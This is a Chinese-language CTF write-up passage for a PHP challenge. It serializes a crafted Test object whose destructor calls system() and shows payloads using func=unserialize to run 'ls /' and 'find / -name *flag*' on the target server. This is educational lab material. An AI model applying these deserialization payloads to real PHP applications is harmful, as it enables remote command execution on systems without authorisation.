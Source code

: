 分析上述代码可以发现存在类 `Test` ，并且黑名单中并没有 `unserialize()` 函数，因此可以尝试通过反序列化来解决，先进行序列化的构造。

```php
<?php
    class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
​
    $a = new Test();
    echo serialize($a);
    // O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}`

<figure><img src=".gitbook/assets/phpweb-3.png" alt=""><figcaption></figcaption></figure>

发现 `flag` 并没有如愿以偿地出现在根目录，因此通过 `find` 命令与上面同理构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}` 。
